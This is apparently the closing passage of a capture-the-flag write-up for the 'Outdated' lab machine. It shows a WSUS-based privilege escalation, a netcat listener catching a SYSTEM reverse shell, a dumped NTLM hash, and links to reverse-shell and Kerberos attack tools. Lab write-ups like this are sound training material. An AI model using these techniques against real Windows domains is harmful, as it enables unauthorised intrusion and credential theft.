```powershell
[*] Action: Check Update

Targeting DC.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
DC.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1

[*] Update is installed

[*] Check complete
```
Once installed we should receive the NT AUTHORITY SYSTEM shell:
```bash
rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 50327
Microsoft Windows [Version 10.0.17763.1432]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Credentials
```bash
HASH-NTLM: sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5
```

### Notes

- Bloodhound needs SharpHound .zip file to run, never forget to execute the .exe which is updated most than the .ps1
- Follina is very easy to exploit but relies on the user interaction, as any client-side attack is difficult to get a user to click on a link but if we can accomplish it we can get a really easy shell.

### References

[Follina](https://github.com/chvancooten/follina.py)
[Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
[Invoke-ConPTYShell.ps1](https://github.com/antonioCoco/ConPtyShell)
[Sharphound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) 
[Invoke-Whiskers.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Whisker.ps1) 
[Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
[SharpWSUS](https://labs.nettitude.com/blog/introducing-sharpwsus/)

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio